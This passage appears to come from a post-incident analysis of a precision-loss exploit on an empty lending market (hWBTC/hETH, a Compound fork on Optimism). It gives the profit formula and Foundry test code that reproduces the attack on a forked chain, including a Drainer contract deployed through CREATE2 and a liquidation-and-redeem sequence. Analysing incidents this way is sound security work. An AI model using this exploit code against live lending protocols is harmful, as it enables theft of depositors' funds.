 Specifically, when an empty market is found, the attacker can `mint` cTokens, making $k=1$, and the additional profit the attacker can obtain using precision loss is:

$$profit = amountOut - amountIn = \frac{I}{T} \tag{12}$$

So, to gain more profit, the amount of funds $I$ transferred in should be larger, and the quantity of cTokens obtained after `mint`, i.e., $T$, should be smaller.

---

Now let's analyze the [hWBTC contract](https://optimistic.etherscan.io/address/0x35594e4992dfefcb0c20ec487d7af22a30bdec60) attacked.

``` solidity
function testEmpty() external {
    vm.createSelectFork("optimism", 89017326);
    uint256 totalSupply = hWBTC.totalSupply();
    console.log("empty market?", totalSupply == 0);
}
```

Querying the contract state before the attacker's action reveals that the `cTotalSupply` of this hWBTC contract is 0, indicating that the state complies with empty markets, thus enabling the attacker to launch the attack using precision loss.

## Exploit

### Reproduce

Based on the previous analysis, combined with the attack transaction, the following script can be used for attack. Here, we only focus on attacking hETH as an example.


``` solidity
function testExploit() external {
    uint256 blockNumber = 89017326; // before the attacker's first mint
    vm.createSelectFork("optimism", blockNumber);
    deal(address(WBTC), address(this), 800*1e8);
    deal(address(this), 0);  // https://twitter.com/TheBlockChainer/status/1727309850810392771
    console.log("before attack");
    emit log_named_decimal_uint("ETH balance", address(this).balance, 18);
    emit log_named_decimal_uint("WBTC balance", WBTC.balanceOf(address(this)), WBTC.decimals());

    uint256 _salt = uint256(keccak256(abi.encodePacked(uint256(0))));
    bytes memory bytecode = type(Drainer).creationCode;
    bytes memory contractBytecode = abi.encodePacked(bytecode, abi.encode(address(hEther)));
    address DrainAddress = address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xff), address(this), _salt, keccak256(contractBytecode))))));

    WBTC.transfer(DrainAddress, WBTC.balanceOf(address(this)));
    Drainer drainer = new Drainer{salt: bytes32(_salt)}(hEther);  // drain the hETH pool

    uint256 exchangeRate = hWBTC.exchangeRateStored();
    uint256 liquidationIncentiveMantissa = 1080000000000000000;
    uint256 priceBorrowedMantissa = priceOracle.getUnderlyingPrice(address(hEther));
    uint256 priceCollateralMantissa = priceOracle.getUnderlyingPrice(address(hWBTC));
    uint256 hTokenAmount = 1;
    uint256 liquidateAmount = 1e18/(priceBorrowedMantissa * liquidationIncentiveMantissa / (exchangeRate * hTokenAmount * priceCollateralMantissa / 1e18)) + 1;
    hEther.liquidateBorrow{value: liquidateAmount}(address(drainer), address(hWBTC)); // liquidate to get the 1 hWBTC
    hWBTC.redeem(1); // redeem to recover the empty market
    
    console.log("after attack");
    emit log_named_decimal_uint("ETH balance", address(this).balance, 18);
    emit log_named_decimal_uint("WBTC balance", WBTC.balanceOf(address(this)), WBTC.decimals());
}
```